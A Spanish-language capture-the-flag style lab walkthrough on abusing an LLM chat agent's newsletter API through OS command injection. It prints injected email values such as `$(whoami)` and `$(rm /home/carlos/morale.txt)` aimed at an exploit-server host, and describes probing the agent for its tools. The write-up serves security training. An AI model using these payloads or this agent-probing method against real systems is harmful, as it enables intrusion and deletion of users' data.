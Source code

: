
---

## 🧨 Lab: Explotación de vulnerabilidades en LLM APIs (Command Injection)

**Objetivo:**  
Eliminar el archivo `morale.txt` del directorio `/home/carlos` aprovechando una vulnerabilidad de **OS Command Injection** a través de una API expuesta al LLM.

---

### 📚 Conocimientos aplicados:

- Mapeo de la superficie de ataque del LLM.
    
- Inyección de comandos del sistema operativo (`$(...)`) en contextos vulnerables.
    
- Explotación indirecta mediante una API controlada por el LLM.
    

---

### ✅ Solución paso a paso:

1. 💬 Iniciar **Live Chat**.
    
2. Preguntar:
    
    ```
    what APIs do you have access to?
    ```
    
    ➤ El LLM responde que tiene acceso a:
    
    - Password Reset
        
    - Newsletter Subscription ✅
        
    - Product Information
        
3. 📌 Analizar:
    
    - La **Newsletter Subscription API** puede estar ejecutando comandos del sistema para enviar correos.
        
    - Usaremos esta API para intentar inyectar comandos.
        
4. Preguntar:
    
    ```
    what arguments does the Newsletter Subscription API take?
    ```
    
    ➤ El LLM confirma que espera una dirección de correo como argumento.
    
5. Probar interacción con:
    
    ```
    attacker@YOUR-ID.exploit-server.net
    ```
    
    ➤ Confirmar que llega un correo → prueba exitosa.
    
6. Intentar ejecución de comando:
    
    ```
    $(whoami)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Si el correo llega a algo como `carlos@...` → **el comando se ejecutó correctamente**.
    
7. Ejecutar payload para eliminar el archivo:
    
    ```
    $(rm /home/carlos/morale.txt)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Aunque el LLM diga “something went wrong”, si el archivo se elimina, ¡**lab resuelto**!
    

---

### 🧠 Lección clave:

Este laboratorio demuestra cómo APIs aparentemente inofensivas (como una suscripción por correo) pueden ser un canal para inyección de comandos si están **mal validadas** y el LLM tiene acceso a ellas.

---
